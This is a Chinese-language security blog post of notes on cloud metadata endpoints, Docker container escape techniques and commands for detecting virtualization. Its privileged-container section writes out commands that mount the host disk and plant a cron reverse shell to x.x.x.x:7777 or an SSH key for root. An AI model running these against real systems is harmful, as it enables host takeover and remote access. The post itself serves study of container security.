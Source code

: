 ```yaml
---
layout:     post
title:      "虚拟化安全"
subtitle:   ""
date:       2020-10-14 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - docker
typora-root-url: ../
---
```




# 探测

适用于容器的技术：

* systemd-detect-virt



## 一、云环境元数据接口

云环境存在实例metadata api，用以在实例内查询实例相关信息。可以利用metadata api 识别云环境类别。

### 腾讯云

[相关文档](https://cloud.tencent.com/document/product/213/4934?from=10680)

api地址:`http://metadata.tencentyun.com/latest/meta-data/`

![image-20201215151637788](/img/2020-10-14-虚拟化安全/image-20201215151637788.png)



### 阿里云

[相关文档](https://help.aliyun.com/document_detail/108460.html)

api地址: `http://100.100.100.200/latest/meta-data/`

![image-20201215152213126](/img/2020-10-14-虚拟化安全/image-20201215152213126.png)

### Microsoft Azure

[相关文档](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service)

api地址: `http://169.254.169.254/metadata/instance`





## 二、docker逃逸

### 启动参数

`--privileged`利用

 ```
查看磁盘文件: fdisk -l
新建目录: mkdir /master
宿主机目录挂载至容器: mount /dev/sda1 /master
使用计划任务反弹shell: echo '*****bash -i >& /dev/tcp/x.x.x.x/7777 0>&1'>> /master/var/spool/cron/root
或写入ssh密钥文件：(echo -e "\n\n";cat id_rsa_new.pub) >> /master/root/.ssh/authorized_keys
 ```



 `--cap-add=SYS_ADMIN`利用

```
在容器内root权限
容器必须使用SYS_ADMIN Linux capability运行
容器必须缺少AppArmor配置文件，否则将允许mount syscall
cgroup v1虚拟文件系统必须以读写方式安装在容器内部
```



其他参数：

```
--net=host 启动时,绕过Network Namespace
--pid=host 启动时,绕过PID Namespace
--ipc=host 启动时,绕过IPC Namespace
--volume /:/host 挂载主机目录到container
```



### docker.sock暴露





### CVE-2020-15257

需要设置：`--net=host`



### cve-2019-5736



### CVE-2019-14271



### CVE-2019-13139



### Dirty cow







##  十一、检测虚拟化环境类型

### systemd-detect-virt

对于使用 systemd 的 Linux 系统，可以使用 systemd-detect-virt 命令来进行检测，该命令目前可以同时检测到基于 hypervisor 的虚拟化技术（例如 KVM、QEMU、VMware、Xen、Oracle VM、VirtualBox、UML）和基于容器的虚拟化技术（例如 LXC、Docker、OpenVZ）。

#### 云环境

![image-20201014110730787](/img/2020-10-14-虚拟化安全/image-20201014110730787.png)

#### 物理服务器

输出none



### virt-what

Linux 所使用虚拟化类型的方法是 virt-what 命令，virt-what 实际上是一个 Shell 脚本。它通过各种启发式方法来识别虚拟化环境类型，可以检测出 QEMU/KVM、VMware、Hyper-V、VirtualBox、OpenVZ/Virtuozzo、Xen、LXC、IBM PowerVM 以及 Parallels 等平台类型。

在使用之前，大家需要先通过 apt-get 或 yum 安装 virt-what。



### sudo dmidecode -s system-manufacturer

检测 Linux 底层的虚拟化类型首选的就是 dmidecode 命令，它最初设计来显示系统 BIOS 和硬件组件的相关信息。使用如下命令便可以检测相关虚拟化信息，如果你的系统运行在物理服务器上，输入的将是硬件制造商的实际名称（如 Dell Inc.）。如果你的 Linux  是运行在虚拟化平台中，则会显示所使用的虚拟化技术相关名称，如 「Microsoft  Corporation」「QEMU」「Xen」「VirtualBox」「VMware, Inc」等等。

> 该方法不适用于基于容器的虚拟化技术



### sudo readlink /proc/1/exe

### ls /.dockerenv

### grep '/docker' /proc/1/cgroup

### ps -p1

### ps aux








# 参考

[检测Linux虚拟化平台类型的几种方式 - 系统极客](https://www.sysgeek.cn/detect-virtualization-command-line/)

[Docker逃逸小结-先知社区](https://xz.aliyun.com/t/7881)

[美创安全实验室 | docker逃逸原理](https://blog.csdn.net/meichuangkeji/article/details/107770194)

[容器逃逸之CVE-2020-15257 containerd-shim Exploit开发](https://www.cdxy.me/?p=837)